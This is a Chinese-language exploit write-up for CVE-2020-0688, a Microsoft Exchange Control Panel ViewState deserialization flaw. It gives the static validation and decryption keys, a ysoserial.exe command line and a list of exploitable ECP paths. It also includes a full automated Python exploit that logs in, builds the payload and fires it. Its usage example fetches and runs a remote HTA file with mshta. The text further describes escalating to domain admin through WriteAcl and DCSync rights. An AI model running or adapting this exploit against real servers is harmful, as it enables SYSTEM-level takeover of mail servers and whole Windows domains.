


# （CVE-2020-0688）Microsoft Exchange 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Microsoft Exchange/CVE-2020-0688.html](http://book.iwonder.run/0day/Microsoft Exchange/CVE-2020-0688.html)

## 一、漏洞简介

该漏洞是由于 Exchange Control Panel(ECP)组件中使用了静态秘钥（`validationKey`和`decryptionKey`）所导致的。

所有 Microsoft Exchange Server 在安装后的`web.config`文件中都拥有相同的`validationKey`和`decryptionKey`。这些密钥用于保证`ViewState`的安全性。而`ViewState`是 ASP.NET Web 应用以序列化格式存储在客户机上的服务端数据。客户端通过`__VIEWSTATE`请求参数将这些数据返回给服务器。

经过身份验证的攻击者可以从身份验证的`session`中收集`ViewStateUserKey`，并在登录请求的原始响应中获得`__VIEWSTATEGENERATOR`。通过这两个值可以利用`YSoSerial.net`工具生成恶意的`ViewState`，从而在 ECP 中执行任意的.NET 代码。由于 ECP 应用程序是以 SYSTEM 权限运行的，因而成功利用此漏洞的攻击者可以以 SYSTEM 身份执行任意代码，并完全控制目标 Exchange 服务器。

## 二、漏洞影响

*   Microsoft Exchange Server 2010 Service Pack 3 Update Rollup 30
*   Microsoft Exchange Server 2013 Cumulative Update 23
*   Microsoft Exchange Server 2016 Cumulative Update 14
*   Microsoft Exchange Server 2016 Cumulative Update 15
*   Microsoft Exchange Server 2019 Cumulative Update 3
*   Microsoft Exchange Server 2019 Cumulative Update 4

## 三、复现过程

> 需要一个普通权限的登录账号

根据网上的漏洞利用方式分析，漏洞出现在 Exchange Control Panel （ECP）组件中，所有 Microsoft Exchange Server 在安装后的`web.config`文件中都拥有相同的`validationKey`和`decryptionKey`。

这些密钥用于保证 ViewState 的安全性，而 ViewState 是 ASP.NET Web 应用以序列化格式存储在客户机上的服务端数据。由于密钥是静态的，攻击者有了这两个密钥，就可以使用 YSoSerial.net 生成序列化后的 ViewState 数据，从而在 Exchange Control Panel web 应用上执行任意.net 代码。

静态的密钥在所有 Microsoft Exchange Server 在安装后的`C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\ecp\web.config`文件中都是相同的：

```
validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
validationalg = SHA1 
```

我们要构造 ViewState 还需要`viewstateuserkey`和`__VIEWSTATEGENERATOR`，

`viewstateuserkey`为用户登录后的`ASP.NET_SessionId`：



`__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：


当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用 YSoSerial.net 生成序列化后的恶意的 ViewState 数据：

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy 
```


构造以下 URL，使用生成的 payload 替换<viewstate>，使用上面所说的 value 值替换<generator>，最后用 GET 请求发送给服务器即可。</generator></viewstate>

```
http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState> 
```



收到 dns 请求


由于 Exchange Server 的机器用户具备 SYSTEM 权限，默认在域内拥有 WriteAcl 的权限，因此，可以通过修改 ACL 的`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`来赋予任何一个用户 Dcsync 的权限，所以这个漏洞的最大危害在于：在域内拥有一个普通用户权限的情况下，通过 Exchange Server 上以 system 用户的身份执行任意的命令，再利用 Exchange Server 的 WriteAcl 权限，从而达到域管权限。

### 附录

经过简单测试，已知可利用路径：

```
/ecp/default.aspx
__VIEWSTATEGENERATOR=B97B4E27

/ecp/PersonalSettings/HomePage.aspx?showhelp=false&
__VIEWSTATEGENERATOR=1D01FD4E

/ecp/PersonalSettings/HomePage.aspx?showhelp=false&
__VIEWSTATEGENERATOR=1D01FD4E

/ecp/Organize/AutomaticReplies.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/RulesEditor/InboxRules.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Organize/DeliveryReports.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/MyGroups/PersonalGroups.aspx?showhelp=false&
__VIEWSTATEGENERATOR=A767F62B

/ecp/MyGroups/ViewDistributionGroup.aspx?pwmcid=1&id=38f4bec5-704f-4272-a654-95d53150e2ae&ReturnObjectType=1
__VIEWSTATEGENERATOR=321473B8

/ecp/Customize/Messaging.aspx?showhelp=false&
__VIEWSTATEGENERATOR=9C5731F0

/ecp/Customize/General.aspx?showhelp=false&
__VIEWSTATEGENERATOR=72B13321

/ecp/Customize/Calendar.aspx?showhelp=false&
__VIEWSTATEGENERATOR=4AD51055

/ecp/Customize/SentItems.aspx?showhelp=false&
 __VIEWSTATEGENERATOR=4466B13F

/ecp/PersonalSettings/Password.aspx?showhelp=false&
__VIEWSTATEGENERATOR=59543DCA

/ecp/SMS/TextMessaging.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/TroubleShooting/MobileDevices.slab?showhelp=false&
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Customize/Regional.aspx?showhelp=false&
__VIEWSTATEGENERATOR=9097CD08

/ecp/MyGroups/SearchAllGroups.slab?pwmcid=3&ReturnObjectType=1
__VIEWSTATEGENERATOR=FD338EE0

/ecp/Security/BlockOrAllow.aspx?showhelp=false&
__VIEWSTATEGENERATOR=362253EF 
```

# 全自动（支持加密）

```
CVE-2020-0688_EXP Auto trigger payload

python3 CVE-2020-0688_EXP.py -h  

usage: CVE-2020-0688_EXP.py [-h] -s SERVER -u USER -p PASSWORD -c CMD [-e]  

optional arguments:  
  -h, --help            show this help message and exit  
  -s SERVER, --server ECP Server URL Example: http://ip/owa  
  -u USER, --user USER  login account Example: domain\user  
  -p PASSWORD, --password PASSWORD  
  -c CMD, --cmd CMD     Command u want to execute  
  -e, --encrypt         Encrypt the payload  
example:

python CVE-2020-0688_EXP.py -s https://mail.x.com/ -u user@x.com -p passwd -c "mshta http://1.1.1.1/test.hta" 
```

> 需要把`ysoserial.exe` 放当前目录
> 
> [https://github.com/ianxtianxt/ysoserial.net/](https://github.com/ianxtianxt/ysoserial.net/)

```
# encoding: UTF-8
import requests
import readline
import argparse
import re
import sys
import os
import urllib3
from urllib.parse import urlparse
from urllib.parse import quote
urllib3.disable_warnings()

ysoserial_path = os.path.abspath(os.path.dirname(__file__))+"/ysoserial-1.32/"
session = requests.Session()

def get_value(url, user, pwd):
    print("[*] Tring to login owa...")
    tmp = urlparse(url)
    base_url = "{}://{}".format(tmp.scheme, tmp.netloc)
    paramsPost = {"password": ""+pwd+"", "isUtf8": "1", "passwordText": "", "trusted": "4",
                "destination": ""+url+"", "flags": "4", "forcedownlevel": "0", "username": ""+user+""}
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0", "Connection": "close", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Cookie": "PrivateComputer=true; PBack=0"}
    cookies = {"PBack": "0", "PrivateComputer": "true"}
    login_url = base_url + '/owa/auth.owa'
    print("[+] Login url: {}".format(login_url))
    try:
        login = session.post(login_url, data=paramsPost,
                          headers=headers, verify=False, timeout=30)
        print("[*] Status code: %i" % login.status_code)
        if "reason=" in login.text or "reason=" in login.url and "owaLoading" in login.text:
            print("[!] Login Incorrect, please try again with a different account..")
            # sys.exit(1)
        #print(str(response.text))
    except Exception as e:
        print("[!] login error , error: {}".format(e))
        sys.exit(1)
    print("[+] Login successfully! ")
    try:
        print("[*] Tring to get __VIEWSTATEGENERATOR...")
        target_url = "{}/ecp/default.aspx".format(base_url)
        new_response = session.get(target_url, verify=False, timeout=15)
        view = re.compile(
            'id="__VIEWSTATEGENERATOR" value="(.+?)"').findall(str(new_response.text))[0]
        print("[+] Done! __VIEWSTATEGENERATOR:{}".format(view))
    except:
        view = "B97B4E27"
        print("[*] Can't get __VIEWSTATEGENERATOR, use default value: {}".format(view))
    try:
        print("[*] Tring to get ASP.NET_SessionId....")
        key = session.cookies['ASP.NET_SessionId']
        print("[+] Done!  ASP.NET_SessionId: {}".format(key))
    except Exception as e:
        key = None
        print("[!] Get ASP.NET_SessionId error, error: {} \n[*] Exit..".format(e)) 
    return view, key, base_url

def ysoserial(cmd):
    cmd = ysoserial_path+cmd
    r = os.popen(cmd)
    res = r.readlines()
    return res[-1]

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-s", "--server", required=True, help="ECP Server URL Example: http://ip/owa")
    parser.add_argument("-u", "--user", required=True, help="login account Example: domain\\user")
    parser.add_argument("-p", "--password", required=True, help="Password")
    parser.add_argument("-c", "--cmd", help="Command u want to execute", required=True)
    parser.add_argument("-e", "--encrypt", help="Encrypt the payload", action='store_true',default=False)
    args = parser.parse_args()
    url = args.server
    print("[*] Start to exploit..")
    user = args.user
    pwd = args.password
    command = args.cmd
    view, key, base_url = get_value(url, user, pwd)
    if key is None:
        key = 'test'
        sys.exit(1)
    ex_payload = """ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{}" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="{}" --viewstateuserkey="{}" --islegacy """.format(command,view,key)
    if args.encrypt:
        re_payload = ex_payload + ' --decryptionalg="3DES" --decryptionkey="E9D2490BD0075B51D1BA5288514514AF" --isencrypted'
    else:
        re_payload = ex_payload + " --isdebug"
    print("\n"+re_payload)
    out_payload = ysoserial(re_payload)
    if args.encrypt:
        final_exp = "{}/ecp/default.aspx?__VIEWSTATEENCRYPTED=&__VIEWSTATE={}".format(base_url, quote(out_payload))
    else:
        final_exp = "{}/ecp/default.aspx?__VIEWSTATEGENERATOR={}&__VIEWSTATE={}".format(base_url, view, quote(out_payload))
    print("\n[+] Exp url: {}".format(final_exp))
    print("\n[*] Auto trigger payload..")
    status = session.get(final_exp,verify=False,timeout=15)
    if status.status_code==500:
        print("[*] Status code: %i, Maybe success!" % status.status_code)

if __name__ == "__main__":
    main() 
```

## 参考链接

> [https://www.anquanke.com/post/id/199772](https://www.anquanke.com/post/id/199772)
> 
> [https://www.t00ls.net/thread-55149-1-1.html](https://www.t00ls.net/thread-55149-1-1.html)

